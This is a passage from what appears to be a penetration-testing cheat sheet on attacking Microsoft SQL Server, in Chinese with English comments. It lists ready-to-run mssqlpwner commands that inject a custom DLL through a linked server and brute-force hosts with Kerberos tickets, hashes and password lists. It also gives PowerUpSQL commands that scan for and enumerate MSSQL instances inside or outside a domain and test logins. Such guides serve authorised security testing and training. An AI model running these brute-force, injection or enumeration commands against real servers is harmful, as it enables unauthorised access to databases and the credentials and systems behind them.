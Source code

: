 ```shell
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-server DC01 inject-custom-asm SqlInject.dll

# Bruteforce using tickets, hashes, and passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -tl tickets.txt -ul users.txt -hl hashes.txt -pl passwords.txt

# Bruteforce using hashes, and passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -hl hashes.txt -pl passwords.txt

# Bruteforce using tickets against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -tl tickets.txt -ul users.txt

# Bruteforce using passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -pl passwords.txt

# Bruteforce using hashes against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -hl hashes.txt

```
### 在没有域会话的情况下从网络枚举
```
# Interactive mode
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth interactive
```
---
###  Powershell

在这种情况下，powershell 模块 [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) 非常有用。
```powershell
Import-Module .\PowerupSQL.psd1
```
### 在没有域会话的情况下从网络枚举
```powershell
# Get local MSSQL instance (if any)
Get-SQLInstanceLocal
Get-SQLInstanceLocal | Get-SQLServerInfo

#If you don't have a AD account, you can try to find MSSQL scanning via UDP
#First, you will need a list of hosts to scan
Get-Content c:\temp\computers.txt | Get-SQLInstanceScanUDP –Verbose –Threads 10

#If you have some valid credentials and you have discovered valid MSSQL hosts you can try to login into them
#The discovered MSSQL servers must be on the file: C:\temp\instances.txt
Get-SQLInstanceFile -FilePath C:\temp\instances.txt | Get-SQLConnectionTest -Verbose -Username test -Password test
```
### 从域内部枚举
```powershell
# Get local MSSQL instance (if any)
Get-SQLInstanceLocal
Get-SQLInstanceLocal | Get-SQLServerInfo

#Get info about valid MSQL instances running in domain
#This looks for SPNs that starts with MSSQL (not always is a MSSQL running instance)
Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose

#Test connections with each one
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -verbose

#Try to connect and obtain info from each MSSQL server (also useful to check conectivity)
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```